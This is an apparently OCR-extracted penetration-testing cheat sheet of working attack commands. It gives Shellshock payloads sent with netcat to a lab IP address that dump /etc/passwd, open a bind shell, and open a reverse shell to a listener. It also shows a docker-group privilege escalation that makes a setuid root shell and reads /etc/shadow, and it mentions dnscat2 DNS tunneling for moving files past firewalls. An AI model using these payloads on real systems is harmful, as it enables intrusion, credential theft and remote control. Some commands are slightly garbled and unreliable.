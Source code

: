 # cat file
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80

# bind shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80

# reverse Shell
$ nc -l -p 443
$ echo "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.103 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 192.168.56.118 80
Root with Docker
# get root with docker
# user must be in docker group
ek@victum:~/docker-test$ id
uid=1001(ek) gid=1001(ek) groups=1001(ek),114(docker)

ek@victum:~$ mkdir docker-test
ek@victum:~$ cd docker-test

ek@victum:~$ cat > Dockerfile
FROM debian:wheezy

ENV WORKDIR /stuff

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
<< EOF

ek@victum:~$ docker build -t my-docker-image .
ek@victum:~$ docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c \
'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh
whoami
# root

ek@victum:~$ docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat /stuff/shadow'
Tunneling Over DNS to Bypass Firewall
# Tunneling Data and Commands Over DNS to Bypass Firewalls
# dnscat2 supports "download" and "upload" commands for getting files (data and programs) to and from # the victim’s host.
